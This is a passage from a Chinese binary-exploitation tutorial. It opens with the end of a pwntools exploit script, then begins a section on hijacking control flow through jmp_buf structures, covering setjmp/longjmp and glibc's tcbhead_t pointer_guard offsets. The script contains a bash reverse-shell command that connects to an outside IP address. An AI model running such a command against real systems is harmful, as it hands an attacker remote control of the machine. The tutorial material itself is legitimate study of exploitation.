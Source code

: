 ```python
p.sendline(request)

p.sendline('bash -c "bash -i >& /dev/tcp/172.18.211.41/7777 0>&1"')
p.interactive()

```

基于jmp\_buf结构体的攻击
================

前置知识
----

### jmp\_buf结构体

setjmp.h 头文件定义了宏 setjmp()、函数 longjmp() 和变量类型 jmp\_buf，该变量类型会绕过正常的函数调用和返回规则

jmp\_buf 是一个数据类型，用于保存调用环境，包括栈指针、指令指针和寄存器等。在执行 setjmp() 时，这些环境信息会被保存到 jmp\_buf 类型的变量中。

int setjmp(jmp\_buf environment)  
这个宏把当前环境保存在变量 environment 中，以便函数 longjmp() 后续使用。如果这个宏直接从宏调用中返回，则它会返回零，但是如果它从 longjmp() 函数调用中返回，则它会返回一个非零值。

void longjmp(jmp\_buf environment, int value)  
该函数恢复最近一次调用 setjmp() 宏时保存的环境，jmp\_buf 参数的设置是由之前调用 setjmp() 生成的。

**根据上述内容，如果jmp\_buf结构体存储在栈上，并且我们可以栈溢出覆盖到此处，那么将可以控制程序的流程!!!**

### pointer\_guard

- 结构体的类型为struct pthread，我们称其为一个thread descriptor，该结构体的第一个域为tchhead\_t类型，其定义如下：
    
    ```C
    typedef struct
    {
    void *tcb;        /* Pointer to the TCB.  Not necessarily the
               thread descriptor used by libpthread.  */
    dtv_t *dtv;
    void *self;       /* Pointer to the thread descriptor.  */
    int multiple_threads;
    int gscope_flag;
    uintptr_t sysinfo;
    uintptr_t stack_guard; 0x28
    uintptr_t pointer_guard; 0x30
    unsigned long int vgetcpu_cache[2];
    /* Bit 0: X86_FEATURE_1_IBT.
     Bit 1: X86_FEATURE_1_SHSTK.
    */
    unsigned int feature_1;
    int __glibc_unused1;
    /* Reservation of some values for the TM ABI.  */
    void *__private_tm[4];
    /* GCC split stack support.  */
    void *__private_ss;
    /* The lowest address of shadow stack,  */
    unsigned long long int ssp_base;
    /* Must be kept even if it is no longer used by glibc since programs,
     like AddressSanitizer, depend on the size of tcbhead_t.  */
    __128bits __glibc_unused2[8][4] __attribute__ ((aligned (32)));
    